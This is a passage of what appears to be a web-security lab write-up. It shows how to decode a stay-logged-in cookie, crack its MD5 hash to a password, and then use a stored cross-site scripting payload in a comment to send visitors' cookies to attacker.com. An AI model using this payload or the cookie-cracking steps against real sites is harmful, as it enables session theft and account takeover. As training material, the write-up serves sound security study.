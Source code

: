 **Step2:**

In /my-Account request we can see stay-log in value

<img src="images/image55.png" alt="third" width="600">

If we decode stay-logged-in using base64

wiener:51dc30ddc473d43a6011e9ebba6ca770

And when we apply hash md5 crack on value it give

51dc30ddc473d43a6011e9ebba6ca770=peter

**Step3:**

As we know there I a cross-site in comment so first try to check if our own cookie are visible or not
```
<script>

document.location='http://attacker.com/steal?cookie=' + document.cookie;

</script>
```
